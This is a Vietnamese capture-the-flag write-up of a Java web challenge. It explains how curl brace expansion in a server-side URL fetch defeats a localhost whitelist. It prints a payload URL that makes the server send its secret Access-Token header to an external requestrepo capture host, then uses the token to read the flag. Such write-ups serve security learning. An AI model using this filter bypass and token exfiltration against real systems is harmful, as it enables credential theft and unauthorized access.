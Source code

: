 Bài cho một một web bằng java được build thành file `.jar`. Đọc source ta thấy flag nằm trong path `/api/flag`

```java
    @GetMapping("/flag")
    public ResponseEntity<Map<String, String>> getFlag(@RequestHeader(value="Access-Token", required=true) String accessToken){
        Map<String, String> response = new HashMap<>();
        if (accessToken == null || accessToken.isEmpty()){
            response.put("result", "fail");
            response.put("message", "Unauthorized");
            return ResponseEntity.status(403).body(response);
        }
        if (!accessToken.equals("[**REDACTED**]")){
            System.out.println(accessToken);
            response.put("result", "fail");
            response.put("message", "Access token is not Valid");
            return ResponseEntity.status(400).body(response);
        }
        response.put("result", "success");
        response.put("message", flag);
        return ResponseEntity.ok(response);
    }
```
Để lấy được thì ta phải gửi request với Header Access-Token đúng. Nhưng hiện tại chưa biết Access-Token là gì.
Tiếp tục phân tích source thì thấy trong file `ApiTestController` có thực hiện curl một url và được set header `Access-Token`
![image](https://github.com/user-attachments/assets/04d0fa9a-d144-4b56-bbbd-831044e83abe)
Do url này được filter khá nhiều: scheme, user, host white list local, path.
Sau hồi tìm kiểm mình tìm được một cách url có thể bypass được 
Với câu lệnh sau
```
curl http://example.com/{path1,path2}
```
Thực hiện request tới 2 url `http://example.com/path1` và `http://example.com/path2`. Tức là sẽ ghép lần lượt các phần tử trong `{}` với chuỗi đằng trước để ra được url.
Lợi dụng điểm này ta sẽ tạo ra câu lệnh như sau
```
curl http://pd6lhjct.requestrepo.com{@localhost/,/}
```
Câu lệnh này sẽ thực hiện ghép 2 phần trong {} thành 1 url `http://pd6lhjct.requestrepo.com@localhost/` (localhost) và 1 url `http://pd6lhjct.requestrepo.com/` để bắt được request đọc header `Access-Token`
Tương ứng với các tham số `user=pd6lhjct.requestrepo.com{`, `host=localhost`, `path=/,/}`
Thực hiện gửi request

![image](https://github.com/user-attachments/assets/bd904a93-4666-454c-a948-d5e1e64939ce)

Nhận được Access-Token
![image](https://github.com/user-attachments/assets/12118285-3dfc-4001-b832-8f062106c2e0)

Lấy flag
![image](https://github.com/user-attachments/assets/07f18db8-6b60-479e-bab3-16b74cef0da4)


